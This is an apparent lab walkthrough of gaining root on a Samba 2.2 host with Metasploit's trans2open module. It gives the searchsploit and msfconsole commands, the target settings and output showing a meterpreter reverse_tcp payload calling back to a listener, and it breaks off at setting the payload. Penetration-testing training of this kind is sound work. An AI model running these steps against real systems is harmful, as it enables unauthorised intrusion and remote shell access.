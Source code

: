 

# Gaining Root with Metasploit

### Attack the SMB

Recap:
	1. We did searchsploit samba 2.2 and found trans2open vulnerability

```
──(kali㉿kali)-[~]
└─$ searchsploit samba 2.2 | grep trans2open
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                                                                     | osx/remote/9924.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                                | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                              | linux_x86/remote/16861.rb

```

Now lets try the metasploit (msfconsole) the trans2open

1. Execute `search trans2open`

```
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)


Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open


```


2. Use the Option 1 (Linux Machine)

```
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 

```

3. Set RHOSTS (the target)

```
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.68.6
RHOSTS => 192.168.68.6

```

4. Check the settings using `options` command

```
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.68.6     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.68.8     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

```

5. Run either `exploit` or `run`

6. If the session is closed or died. Check the payload option. As you see in the result of `options` command. The payload set is a staged `linux/x86/meterpreter/reverse_tcp`. Lets use the non staged if it will work (`linux/x86/meterpreter_reverse_tcp')

```
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.68.8:4444 
[*] 192.168.68.6:139 - Trying return address 0xbffffdfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffcfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffbfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.68.6
[*] 192.168.68.6 - Meterpreter session 1 closed.  Reason: Died
^[[B^[[B^[[B[*] 192.168.68.6:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 192.168.68.6
[*] 192.168.68.6 - Meterpreter session 2 closed.  Reason: Died

```

7. Set the payload
